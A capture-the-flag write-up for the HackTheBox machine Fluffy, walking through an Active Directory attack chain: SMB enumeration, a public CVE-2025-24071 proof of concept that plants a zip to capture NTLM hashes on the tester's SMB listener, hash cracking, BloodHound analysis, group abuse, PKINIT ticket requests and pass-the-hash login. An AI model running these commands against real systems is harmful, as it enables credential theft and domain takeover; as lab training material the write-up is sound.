


Welcome to my writeup for the HackTheBox machine Fluffy. Fluffy is a easy Windows Active Directory box that focuses on enumeration, SMB exploitation, Kerberos attacks, and privilege escalation. 
This repository is for educational purposes only.

## Nmap Scan

```
Nmap scan report for 10.129.127.23
Host is up (0.035s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-20 21:05:51Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

```


### Key Findings
- Exposed SMB shares
- Kerberos & LDAP suggest Active Directory Domain Controller
- WinRM service available


`smbmap -H 10.129.186.239 -u "j.fleischman -p J0elTHEM4n1990!"`

 


`smbclient //10.129.186.239/IT -U "j.fleischman"`


smb: \> ls
  .                                   D        0  Fri Sep  5 20:08:31 2025
  ..                                  D        0  Fri Sep  5 20:08:31 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 16:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 16:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 16:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 16:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 15:31:07 2025


Download the files and you find the below:





To find a good example of how to run a exploit CVE- Title -github poc in google. 
You should find https://github.com/LOOKY243/CVE-2025-24071-PoC


### Steps
1. Copy the exploit.py file to your machine 
2. python3 `exploit.py -i 10.10.16.40 -s shared -f evil`
 3. Start listener for hash capture:
   `sudo impacket-smbserver shared /home/franky/Documents/FLUFFY -smb2support`
   3. Upload payload to target IT share. 
    `smbclient //10.129.186.239/IT -U j.fleischman`
    `put evil.zip`

4. You should see username + hash on listner.

5. Crack the with rockyou.txt: 
  `hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt`

6. Now we have a new username and password. You might try evil-winrm, but the user does not have permission. So, let's enumerate more. C

BloodHound is AD anlsyis tool that helps enuerate objects/principles. 

Create a BloodHound file and upload to bloodhound review.
      ```sudo nxc ldap dc01.fluffy.htb -u "<USERNAME>" -p "<PASSWORD>" \ --bloodhound --collection All --dns-tcp --dns-server <TARGET_IP>```
       `BloodHound`
       Should see BloodHound open in new tab in firefox
       Upload the ladp file we created
       Search for User we enumerated
       Examine relationships and you will see this 

       


Observations

The user we found is in SERVICE ACCOUNT MANAGERS, which has full control (GenericAll) over SERVICE ACCOUNTS; SERVICE ACCOUNTS can modify WINRM_SVC (GenericWrite).

Implications: User can indirectly modify service accounts. Compromising this user could allow escalation to WINRM_SVC via the permission chain. WINRM_SVC can access remote login is and likely has the flag. 

## Preparations

- Start a virtual environment in your folder and install the following tools in a virtual environment:
  - `pywhisker`
  - `PKINITtools`
  - `faketime`


---

### Add User to Service Accounts

`net rpc group addmem "Service Accounts" "<USER>" \
  -U "dc01.fluffy.htb"/"<USER>" -S "<TARGET_IP>"`


### Request Kerberos TGT for Service Account

If your local time does not match the Domain Controller (DC), you may encounter errors. Synchronize time first:

`sudo rdate -n <TARGET_IP>`


`faketime <DATE_TIME> python3 gettgtpkinit.py \ -cert-pem key_cert.pem \ -key-pem key_priv.pem \ fluffy.htb/<SERVICE_ACCOUNT> \  <SERVICE_ACCOUNT>.ccache`


### Set the Kerberos ticket environment variable:

`export KRB5CCNAME=<SERVICE_ACCOUNT>.ccache`


Tip: Ensure the KRB5CCNAME export works in your virtual environment. Use an absolute path if necessary.

### Retrieve NT Hash

`faketime <DATE_TIME> python3 getnthash.py \ -key <KEY> fluffy.htb/<SERVICE_ACCOUNT>`

### Access Service Account
`evil-winrm -i <TARGET_IP> -u <SERVICE_ACCOUNT> -H <NT_HASH>`


